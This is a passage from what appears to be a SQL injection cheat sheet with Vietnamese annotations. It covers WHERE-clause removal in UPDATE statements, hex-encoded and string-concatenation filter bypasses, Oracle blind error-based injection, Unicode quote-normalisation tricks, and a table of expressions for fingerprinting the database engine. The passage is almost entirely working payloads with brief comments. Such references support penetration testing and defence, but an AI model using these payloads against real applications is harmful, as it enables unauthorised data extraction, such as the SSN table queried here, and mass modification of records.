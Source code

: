 ```sql
UPDATE contacts SET Email="User@test.com" WHERE Name = 'User'
/*
Bằng cách thêm '-- có thể xóa mệnh đề WHERE khỏi câu lệnh UPDATE, đồng nghĩa là toàn bộ bảng đó bị update.
```

<h2>ByPass Filter</h2>

<h4>Hex Encoded</h4>

```sql
SELECT username FROM users WHERE isadmin = 2 union select name from sqlol.ssn where name='herp derper'--

=> SELECT username FROM users WHERE isadmin = 2 union select name from sqlol.ssn where name=0x4865727020446572706572--
```

<h4>Nỗi Chuỗi</h4>

```sql
Oracle:
    select full_name from info where phone = '1234'||'5678';
    select full_name from info where phone = '1234'||(select '5678' from dual)||'';
    select full_name from info where phone = '1234'||(select case when(1=1) then '5678' else to_char(1/0) end from dual)||''; -- => blind kích lỗi to_char(1/0)
    select full_name from info where phone = '1234'||(select '')||''
    
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
